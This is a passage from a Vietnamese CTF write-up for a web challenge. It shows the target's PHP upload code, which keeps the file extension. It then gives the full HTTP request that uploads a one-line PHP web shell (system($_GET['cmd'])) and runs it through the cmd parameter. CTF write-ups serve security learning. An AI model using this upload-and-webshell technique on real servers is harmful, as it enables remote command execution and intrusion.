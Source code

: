 ![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/d906b05b-840f-4ed6-898b-edae7ad6e99a)

Ồ. thú vị ở đây. Mình lại có thể đọc được code trong view-source.
```php
<!--
   if(isset($_FILES['fileData'])){
      if($_FILES['fileData']['size'] > 1048576){
         $errors='File size must be excately 1 MB';
      }

      if(empty($errors)==true){
        $uploadedPath = "uploads/".rand().".".explode(".",$_FILES['fileData']['name'])[1];
        move_uploaded_file($_FILES['fileData']['tmp_name'],$uploadedPath);
        echo "File uploaded successfully\n";
        echo '<p><a href='. $uploadedPath .' target="_blank">File</a></p>';
      }else{
         echo $errors;
      }
   }
-->
```
Nhìn chúng thì mình thấy:
* Chức năng upload giới hạn kích thước phải nhỏ hơn 1MB. Ta có thể chèn một code php kiểu như `<?php system('$_GET['cmd']')?>` để thực thi.
* File upload được lưu vào hệ thông trong thư mục `uploads` với tên file được random và giữ nguyên phần mở rộng file. Ta có thể upload luôn file php chứa shell.

Mình có thể upload luôn file php lên server.

![image](https://github.com/TaiPhung217/CTF_writeup/assets/102504154/4475a798-55aa-4121-929c-c07ef5ee1c1f)

```php
POST /upload.php HTTP/2
Host: magic-login-421eed68.dailycookie.cloud
Cookie: PHPSESSID=4e3508f16b319c5560fc13a853c2ff19
Upgrade-Insecure-Requests: 1
Origin: https://magic-login-421eed68.dailycookie.cloud
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryHcBgUIZm2MacwXSE
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/114.0.5735.91 Safari/537.36
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Content-Length: 231

------WebKitFormBoundaryHcBgUIZm2MacwXSE
Content-Disposition: form-data; name="fileData"; filename="index.php"
Content-Type: application/octet-stream

<?php system($_GET['cmd']);?>

------WebKitFormBoundaryHcBgUIZm2MacwXSE--
```
kết quả thành công 🕶️ mình nhận được link tới file là `uploads/1915122261.php`.
Dán vào trình duyệt và thực thi lệnh với `/uploads/1915122261.php?cmd=id`.
Kết quả thành công có một webshell:
